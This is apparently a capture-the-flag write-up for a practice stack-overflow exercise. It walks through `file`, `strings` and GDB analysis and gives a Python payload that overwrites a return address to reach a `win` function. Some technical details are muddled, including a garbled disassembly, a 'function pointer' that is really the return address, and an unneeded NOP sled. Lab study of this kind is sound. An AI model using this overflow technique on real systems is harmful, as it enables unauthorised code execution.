 # ex04

### Objective
The goal of this challenge is to change the code flow of the binary and see the message "code flow successfully changed".

### Steps Taken

1. **Initial Analysis**:
    - First, we used `file` to determine the type of the binary and `strings` to identify useful strings within the binary.

    ```sh
    file bin
    strings bin
    ```

    **Output of `file bin`**:
    ```
    bin: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.18, BuildID[sha1]=7ae0e77eaa3013bd65288c9201af0a731611fd8f, not stripped
    ```

    **Output of `strings bin`**:
    ```
    /lib/ld-linux.so.2
    __gmon_start__
    libc.so.6
    _IO_stdin_used
    gets
    puts
    __libc_start_main
    GLIBC_2.0
    PTRh 
    [^_]
    code flow successfully changed
    ```

2. **Disassembly**:
    - We used `gdb` to disassemble the binary and identify the `gets` function call, which is used to read input into a buffer, and a function pointer that is later called.

    ```sh
    gdb bin
    (gdb) break main
    (gdb) run
    (gdb) disassemble main
    ```

    **Disassembly of `main`**:
    ```assembly
    Dump of assembler code for function main:
       0x08048408 <+0>:     push   %ebp
       0x08048409 <+1>:     mov    %esp,%ebp
       0x0804840b <+3>:     and    $0xfffffff0,%esp
       0x0804840e <+6>:     sub    $0x50,%esp
       0x08048411 <+9>:     int3   
       0x08048412 <+10>:    inc    %esp
       0x08048413 <+11>:    and    $0x10,%al
       0x08048415 <+13>:    mov    %eax,(%esp)
       0x08048418 <+16>:    call   0x804830c <gets@plt>
       0x0804841d <+21>:    leave  
       0x0804841e <+22>:    ret    
    End of assembler dump.
    ```

3. **Identify the Target Function**:
    - We identified a `win` function in the binary that prints the success message "code flow successfully changed".

    ```sh
    (gdb) info functions
    (gdb) disassemble win
    ```

    **Disassembly of `win`**:
    ```assembly
    Dump of assembler code for function win:
       0x080483f4 <+0>:     push   %ebp
       0x080483f5 <+1>:     mov    %esp,%ebp
       0x080483f7 <+3>:     sub    $0x18,%esp
       0x080483fa <+6>:     movl   $0x80484e0,(%esp)
       0x08048401 <+13>:    call   0x804832c <puts@plt>
       0x08048406 <+18>:    leave  
       0x08048407 <+19>:    ret    
    End of assembler dump.
    ```

    - The address of the `win` function is `0x080483f4`.

4. **Determine Buffer Size and Offset**:
    - The buffer starts at `ESP + 16` (from `lea 0x10(%esp), %eax`).
    - The offset to reach the return address: `0xbfcd0e1c - (0xbfcd0dc0 + 16) = 76 bytes`.

5. **Craft the Payload**:
    - We created a Python script to generate the payload that overflows the buffer and modifies the function pointer to point to the `win` function.

    ```python
    import struct, base64

    buffer_size = 76  # Updated buffer size
    nop_sled = b"\x90" * 16
    target_address = 0x080483f4  # Address of the win function

    payload = nop_sled + b"A" * (buffer_size - len(nop_sled)) + struct.pack("<I", target_address)
    encoded_payload = base64.b64encode(payload).decode("ascii")
    print(encoded_payload)
    ```

6. **Execute the Binary with the Payload**:
    - We used the following commands to set the payload as an environment variable and run the binary.

    ```sh
    payload=$(python -c 'import struct, base64; buffer_size = 76; nop_sled = b"\x90" * 16; target_address = 0x080483f4; payload = nop_sled + b"A" * (buffer_size - len(nop_sled)) + struct.pack("<I", target_address); encoded_payload = base64.b64encode(payload).decode("ascii"); print(encoded_payload)')
    export PAYLOAD=$(echo $payload | base64 --decode)
    echo -e $PAYLOAD | ./bin
    ```

### Difficulties Encountered

- **Initial Payload Issues**:
    - Initially, the payload caused an "Illegal instruction" error. This was resolved by ensuring the payload length and structure were correct.

- **Buffer Size Calculation**:
    - Determining the correct buffer size and offset to overwrite the return address required careful inspection of the stack and memory layout using GDB.

- **NOP Sled Usage**:
    - Using a NOP sled helped ensure that the execution flow correctly reached the target function even if the exact address wasn't initially accurate.

### Output
- The output showed the success message, indicating that we successfully exploited the binary:
    ```
    code flow successfully changed
    Segmentation fault
    ```
![Succsess Flag](./images/image.png)

### Tools Used
- `file`
- `strings`
- `gdb`
- Python

### Educational Purpose
These methods and tools are used strictly for educational purposes to understand and protect against similar vulnerabilities. 

### Script
Include the Python script used to generate the payload:

```python
import struct, base64

buffer_size = 76  # Updated buffer size
nop_sled = b"\x90" * 16
target_address = 0x080483f4  # Address of the win function

payload = nop_sled + b"A" * (buffer_size - len(nop_sled)) + struct.pack("<I", target_address)
encoded_payload = base64.b64encode(payload).decode('ascii')
print(encoded_payload)
```